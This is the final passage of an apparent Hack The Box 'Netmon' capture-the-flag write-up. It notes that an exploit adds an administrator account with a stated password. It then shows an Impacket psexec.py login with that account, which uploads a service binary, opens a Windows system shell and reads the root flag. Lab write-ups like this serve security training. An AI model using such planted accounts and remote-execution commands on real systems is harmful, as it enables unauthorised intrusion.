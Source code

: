 It creates a new user called `pentest` with the password `P3nT3st!` as administrator for the box.

After we run the exploit we can simply login with psexec.py 
```bash
kali@kali:~/boxes/netmon$ python3 /home/kali/impacket/examples/psexec.py pentest:'P3nT3st!'@netmon.htb
Impacket v0.9.22- Copyright 2020 SecureAuth Corporation

[*] Requesting shares on netmon.htb.....
[*] Found writable share ADMIN$
[*] Uploading file CxDBMiNZ.exe
[*] Opening SVCManager on netmon.htb.....
[*] Creating service NKCT on netmon.htb.....
[*] Starting service NKCT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ../..
 
C:\>cd Users
cd
C:\Users> Administrator
 
C:\Users\Administrator>cd Desktop
 
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 684B-9CE8

 Directory of C:\Users\Administrator\Desktop

02/03/2019  12:35 AM    <DIR>          .
02/03/2019  12:35 AM    <DIR>          ..
02/03/2019  12:35 AM                33 root.txt
               1 File(s)             33 bytes
               2 Dir(s)  12,061,655,040 bytes free

C:\Users\Administrator\Desktop>type root.txt
3018977fb944bf1878f75b879fba67cc
```
Thanks for reading hope you enjoyed.
